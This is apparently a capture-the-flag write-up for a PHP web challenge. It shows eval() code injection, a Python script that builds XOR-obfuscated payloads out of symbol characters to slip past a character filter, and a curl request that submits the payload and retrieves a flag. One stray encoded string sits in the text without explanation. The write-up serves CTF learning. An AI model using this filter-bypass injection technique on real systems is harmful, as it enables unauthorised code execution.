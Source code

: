# Love Note writeup:
- 1: let make some test:
     every message we submit result to this :
> I don't understand letters darling.What do you mean ....

i submit this: 5+5  and the result is:  10
i thing directly to eval or SSTI :grin: 
ok let  submit this malicious input: ;
Result:

> Parse error: syntax error, unexpected token ";" in /app/index.php(74) : eval()'d code on line 1
so we know that  the backend use our input with eval function.OB3WWYJIFIYG6TRUOIYDSW2WMNFX2SBPHJVTKNL4JA6WOXTBHFMVMZZXMEYHGXSCFASCKKBWJ4ZFAVTEIE======

- 2 know we need to execute code trough  our input.
       for this, we can use burp repeater to make many test.
       after make some test, i understand that the input is filter.
       i use burp intruder to understand the filter. 
# all char is filter expect digits and symbols
 allowed charset is: 0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
we need to creaft our payload with only allowed chars. But how can we do that :thinking: 
# xored text

# dont forget our purpose is: submit "i love You" message.
we need to creaft  two strings composed only of digits and symbols and the Xor of these two strings will give us our message : " I love You".  i write a simple python script to do that

```python
#from pwn import xor
from string import digits, punctuation

allow_charset = digits + punctuation

def xored_text(text):
    obfuscate1 = ''
    obfuscate2 = ''
    result = ''
    for letter in text:
        found = False
        for  l1 in allow_charset:
            for l2 in allow_charset:
                if ord(l1) ^ ord(l2) == ord(letter):
                    obfuscate1 += l1
                    obfuscate2 += l2
                    found = True
                if found:
                    break
            if found:
                break
        if not found:
            print(f"warning we haven't fund  symbol for {letter}")

    print( f"payload : ('{obfuscate1}'^ '{obfuscate2}')")
    return obfuscate1 + '   ' + obfuscate2





print(xored_text("i love you"))
```

```bash
$ python3 generate_payload.py
payload : ('2@0068@905'^ '[`\_@]`@_@')
2@0068@905   [`\_@]`@_@

```  the script give us this payload: ('2@0068@905'^ '[`\_@]`@_@')


```bash
curl -X POST  -d expression="('2@0068@905'^ '[\`\_@]\`@_@')"  https://lovenote.up.railway.app/
```
# Result:
in  the result , we have this:
```html
<div class="love-note">
            <h2>Messages approuvés :</h2>
            Check ayiwannoumi1247.txt
        </div>
```
so we need to check  ayiwannoumi1247.txt file
```bash
curl   https://lovenote.up.railway.app/ayiwannoumi1247.txt
LoveCTF{4lw4y5_c0mmun1c473_s3cr37ly_w17h_my_l0v3}
```
winnnnnnnnnnnnnnnnn :sweat_smile: !!!!!!!!!!!
that's all :pray_tone1:
